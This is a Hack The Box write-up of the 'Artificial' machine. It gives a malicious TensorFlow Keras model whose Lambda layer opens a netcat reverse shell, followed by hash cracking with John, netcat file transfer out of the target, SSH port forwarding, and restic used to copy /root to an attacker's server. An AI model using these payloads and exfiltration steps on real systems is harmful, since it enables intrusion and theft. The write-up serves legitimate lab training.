 # 🚪 Hack The Box – Artificial (Easy)
Machine Type: Linux | Solved by: Akshat Nigam | Category:Web Exploitation, Docker Misconfiguration, Privilege Escalation | Difficulty: Easy | Attack Surface:HTTP (port 80), TensorFlow via file upload
---
## Initial Enumeration

### Nmap Scan

```bash
nmap -sV -sC 10.10.11.74 -v
```

**Open Ports:**

* 22/tcp: OpenSSH 8.2p1
* 80/tcp: HTTP (nginx 1.18.0)
---
## Web Exploitation - TensorFlow RCE

1. Register a user and access the upload page.
2. Gather `requirements.txt` and `Dockerfile` for environment context:

### Dockerfile

```dockerfile
FROM python:3.8-slim
WORKDIR /code
RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/.../tensorflow_cpu-2.13.1...whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1...whl
ENTRYPOINT ["/bin/bash"]
```
Build the Docker image using 

```bash
docker build -t <image name> .
```
Start the container 

```bash
docker run -it -v $(pwd):/app <image name> 
```
---
### Exploit Code

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc <your-ip> 6666 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```
Open a nc connection in your terminal as a listenner

```bash
nc -nlvp 6666
```
## 3. Upload model and trigger execution by clicking **"View Predictions"**.

 

---
## Getting User

### SQL Enumeration

```bash
sqlite3 users.db
sqlite> SELECT * FROM user;
```

Extracted user hashes. Example:

```plaintext
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
```
---
### Cracking Hash with John

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
```

Cracked Password: `mattp005numbertwo`
---
### SSH Access

```bash
ssh gael@10.10.11.74
```
---
## Privilege Escalation - Root

### Backup Discovery

```bash
cd /var/backups
ls -la
```

Found: `backrest_backup.tar.gz`

Extracted and found:
---
## Netcat Transfer 

```bash
nc -nv <your ip> <port> < backrest_backup.tar.gz
```
On your Attacking machine open the listening 

```bash
nc -nlvp <port> > backrest_backup.tar.gz
```
Unzip it and read 

```bash
cat .config/backrest/config.json
```

```json
"passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
```
---
### Decode and Crack Bcrypt

```bash
echo '<base64>' | base64 -d > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

Cracked Password: `!@#$%^`

## Now check the intranet connections 

```bash
ss -tulnp
```
Here you will find a service running inside the network on port 9898

### Internal Port Forwarding

Access the internal (intranet-only) web apps or services behind the firewall 
-L set up local port forwarding on 9898 in the attacker's machine

```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```
---
## Using Restic (GTFOBins)
Go to the http://localhost:9898 enter the username and password you gained above. 
```bash
Username: backrest_root
Password: !@#$%^
```
---
### Start Local Restic Server

Create your own Repo name it according to your use. 

```bash
Repository Url: /opt
Password: <Depends on you>
```
On your system, install Rest-server, using go

```bash
./rest-server --path /tmp/restic-data --listen :12345 --no-auth
```

### On Target - Backup `/root`

Now after creating the repo, in the Run command execute:

```bash
restic -r rest:http://<your-ip>:12345/myrepo init
restic -r rest:http://<your-ip>:12345/myrepo backup /root
```
---
### On Attacker - Restore Snapshot

```bash
restic -r /tmp/restic-data/myrepo snapshots
restic -r /tmp/restic-data/myrepo restore <snapshot-id> --target ./restore
```

Root flag found:

```bash
cat restore/root/root.txt
```
---
### SSH as Root (Optional)

```bash
ssh -i ./id_rsa root@Artificial.htb
```

---

## Summary

* **User:** Achieved via TensorFlow model RCE and hash cracking.
* **Root:** Extracted from backup archive, cracked bcrypt password, used port forwarding and restic GTFOBin to restore `/root`.

> Rooted 🎉
